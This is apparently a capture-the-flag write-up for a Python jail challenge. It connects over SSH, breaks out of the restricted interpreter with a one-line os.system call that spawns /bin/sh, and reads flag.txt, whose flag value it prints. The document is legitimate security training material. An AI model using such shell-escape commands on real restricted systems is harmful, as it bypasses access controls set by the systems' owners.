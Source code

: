 # How to

Connect to machine using ssh and get message
```
  _________________________
     ||   ||     ||   ||
     ||   ||, , ,||   ||
     ||  (||/|/(\||/  ||
     ||  ||| _'_`|||  ||
     ||   || o o ||   ||
     ||  (||  - `||)  ||
     ||   ||  =  ||   ||
     ||   ||\___/||   ||
     ||___||) , (||___||
    /||---||-\_/-||---||\
   / ||--_||_____||_--|| \
  (_(||)-| SP1337 |-(||)_)
          --------

Hello prisoner, welcome to jail.
Don't get any ideas, there is no easy way out!
```

Exit script with `Ctrl + D`

Start interactive shell
```
>>> import os; os.system("/bin/sh")
```

```
$ ls -l
-r--------    1 user     user            39 Apr 28 05:25 flag.txt
-rwxr-xr-x    1 root     root           613 Apr 28 05:25 jail.py

$ cat flag.txt
```
flag{c31e05a24493a202fad0d1a827103642}

